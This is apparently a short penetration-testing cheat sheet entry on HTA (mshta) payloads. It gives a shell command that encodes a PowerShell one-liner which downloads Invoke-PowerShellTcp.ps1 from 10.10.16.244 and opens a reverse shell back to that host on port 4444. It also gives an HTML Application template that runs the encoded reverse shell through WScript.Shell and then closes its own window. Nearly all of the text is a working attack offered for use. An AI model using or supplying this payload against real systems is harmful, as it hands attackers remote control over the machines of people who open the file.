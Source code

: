 # hta
% hta, mshta, microsoft html application

## payload (empire model)
echo "IEX(New-Object NET.WebClient).DownloadString('http://10.10.16.244/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.244 -Port 4444" | iconv --to-code UTF-16LE | base64 -w 0
```html
<html><head><script>var c= 'powershell -noP -sta -w 1 -enc  <b64_revshell>'
new ActiveXObject('WScript.Shell').Run(c);</script></head><body><script>self.close();</script></body></html>
```